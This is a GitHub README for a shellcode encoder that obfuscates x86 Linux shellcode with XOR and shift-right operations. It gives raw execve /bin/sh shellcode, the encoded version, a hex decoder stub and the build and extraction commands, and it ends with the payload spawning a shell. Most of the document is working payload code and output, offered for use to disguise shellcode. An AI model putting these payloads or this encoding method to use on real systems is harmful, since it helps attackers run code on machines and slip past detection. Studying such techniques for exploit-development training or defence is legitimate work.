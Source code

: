 # XOR-SHR-Enocder-Decoder
Shift Right + XOR Encoder

The purpose if this Encoder is to encode a shellcode using XOR and shift right operations.
Use the Encoder.py first and then Decoder.nasm

# Getting started:
root@kali:~# ./encoder.py
Encoded shellcode....

Len : 25
0x49,0xb1,0xf9,0xe5,0x46,0x46,0x68,0xe5,0xe5,0x46,0xe0,0x65,0xe6,0x15,0x20,0xf9,0x15,0xa0,0x78,0x15,0x21,0x89,0x54,0x37,0x91,


Shellcode for c....


\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

[+] The "Shellcode for c" is just a raw shellcode not encoded, in case if you want to test it first without encoding it.

[+] Copy and paste the encoded shellcode to decoder.nasm


root@kali:~# nasm -f elf32 -o shell.o shell.nasm

root@kali:~# ld -z execstack -o shell shell.o

root@kali:~# objdump -d ./shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\xeb\x2d\x5e\x31\xdb\x31\xc0\x8a\x1e\x80\xf3\x99\x74\x26\x8a\x1e\x88\xd8\x84\xc0\x78\x09\xd0\xe0\x34\xa3\x88\x06\x46\xeb\xe4\x66\x0f\xba\xf0\x07\xd0\xe0\x04\x01\x34\xa3\x88\x06\x46\xeb\xd4\xe8\xce\xff\xff\xff\x49\xb1\xf9\xe5\x46\x46\x68\xe5\xe5\x46\xe0\x65\xe6\x15\x20\xf9\x15\xa0\x78\x15\x21\x89\x54\x37\x91\x99"

[+] We copy the output shellcode to the c file shell-code.c

root@kali:~# gcc -fno-stack-protector -z execstack shell-code.c -o shell-code
root@kali:~# ./shell-code
Shellcode Length: 79
#

We got a shell NICE ! :-)
